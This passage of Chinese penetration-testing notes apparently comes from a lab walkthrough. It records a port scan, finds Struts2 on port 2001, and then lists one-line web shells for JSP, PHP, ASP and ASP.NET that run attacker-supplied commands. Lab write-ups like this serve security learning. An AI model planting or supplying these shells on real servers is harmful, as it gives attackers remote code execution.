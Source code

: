![image-20221216112440239.png](https://kyonk.v6.army:1443/86zMSY.png)

发现22、2001、2002、2003端口

#### 2. 访问2001端口

http://192.168.157.132:2001/

**查看源码发现struct2**

jsp一句话木马

无回显

```
<%Runtime.getRuntime().exec(request.getParameter("p"));%>
```

```text
PHP:    
<?php @eval($_POST['chopper']);?>
ASP:    
<%eval request("chopper")%>
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>
```